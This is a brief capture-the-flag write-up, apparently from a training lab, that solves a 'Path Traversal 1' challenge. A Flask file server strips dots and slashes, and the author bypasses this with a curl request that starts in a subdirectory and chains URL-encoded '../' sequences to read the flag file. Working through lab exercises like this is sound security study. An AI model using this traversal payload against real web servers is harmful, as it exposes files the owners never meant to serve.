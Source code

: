# Path Traversal 1

```shell
cat /challenge/server
```

The server is a Flask app that, on receiving requests at `/data/<path>`, serves the file at `/challenge/files/path`
We know that the flag is at `/challenge/flag`
This time the server strips any leading and trailing "." or "/", so can't use the previous solution.

```shell
ls /challenge/files
```

The challenge files contain a directory `fortunes/`. We can use this as the start of the path string.
Start the server and use curl:

```shell
curl -v http://challenge.localhost:80/data/fortunes/..%2F..%2F..%2Fflag
```

"..%2F" is URL-encoding of "../"
